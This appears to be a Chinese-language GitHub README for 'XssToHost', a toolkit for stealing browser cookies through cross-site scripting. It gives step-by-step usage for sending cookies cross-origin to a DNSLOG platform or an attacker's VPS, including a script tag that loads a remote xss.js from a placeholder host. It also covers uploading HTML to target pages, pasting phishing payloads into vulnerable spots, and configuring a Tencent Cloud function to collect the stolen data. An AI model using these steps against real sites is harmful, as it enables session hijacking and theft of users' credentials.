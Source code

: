 # XssToHost

通过js跨域请求到DNSLOG平台或自己的VPS主机，并实现cookie外带  

## Usage 

1.将xss.js中的http地址改为带有监听功能的服务器，比如DNSLOG或者开了监听的VPS  
2.将xss.js部署在自己的VPS上  
3.当可以打xss时，可用

```html
<script src="http://exmaple.com/xss.js"></script>
```

方式远程加载此文件  
4.如遇到可上传HTML并解析的情况，可将xss.html上传到目标页面，远程加载xss.js  

5.xss2.html与xssfish.html为实战型，修改相关域名直接将html内的语句复制到有xss位置的地方即可  

6.xss.py为腾讯云函数配置文件，直接在云函数中配置即可，触发器为api网关，勾选集成响应，额外的可勾选CORS，并根据官方提示新建相应插件并绑定API即可  
